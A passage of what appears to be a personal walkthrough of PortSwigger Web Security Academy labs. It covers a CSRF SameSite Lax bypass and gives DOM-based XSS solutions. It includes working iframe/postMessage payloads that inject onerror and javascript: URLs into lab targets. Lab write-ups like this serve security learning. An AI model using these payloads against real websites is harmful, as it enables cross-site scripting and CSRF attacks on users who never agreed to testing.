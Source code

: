 ```
location="https://cms-xxx.web-security-academy.net/login?username=URL-ENCODED-PAYLOAD&password=peter"
</script>
```

### 9. SameSite Lax bypass via cookie refresh
```
Create CSRF PoC. Send it to victim once, wait 5-10 seconds and send it again.
```

### 10. CSRF Refresh Password isloggedin true  
![image](https://user-images.githubusercontent.com/58632878/225075710-01fd1c2f-97fe-4e86-af60-3f84b9616293.png)  
![image](https://user-images.githubusercontent.com/58632878/225067728-0d3ceddd-4f8a-4af9-b8e9-602ea43300f6.png)  


# Clickjacking  
## Approach  
Really?


# DOM-based vulnerabilities
## Approach  
My personally hated topic. Quite hard to understand, how to construct the payload. The best tip I've got for this is to use DOM-Invader Extension, it can detect this vulnerability and even, in some cases, construct right payload, but don't rely on it too much. For example, on the screenshot below you can see, that DOM-Invader got the right place for injection for ```DOM XSS using web messages and JSON.parse``` lab, so all you need is to write it in iframe tag and get alert() function.  
![image](https://user-images.githubusercontent.com/58632878/224688658-b043e05a-791b-4a44-9460-4323e1ed598b.png)  
![image](https://user-images.githubusercontent.com/58632878/224688884-e0d8f9c7-d10a-4534-97c5-ccb32fc3a461.png)  


## Labs  
### 1. DOM XSS using web messages
>Notice that the home page contains an addEventListener() call that listens for a web message
```
<iframe src="//0a8100fe032e3917c66ead67003c0020.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">
```
>When the iframe loads, the postMessage() method sends a web message to the home page. The event listener, which is intended to serve ads, takes the content of the web message and inserts it into the div with the ID ads. However, in this case it inserts our img tag, which contains an invalid src attribute. This throws an error, which causes the onerror event handler to execute our payload. 


### 2. DOM XSS using web messages and a JavaScript URL
```
<iframe src="https://0a2d00d604a3acfbc67064610056003c.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//https:','*')">
```
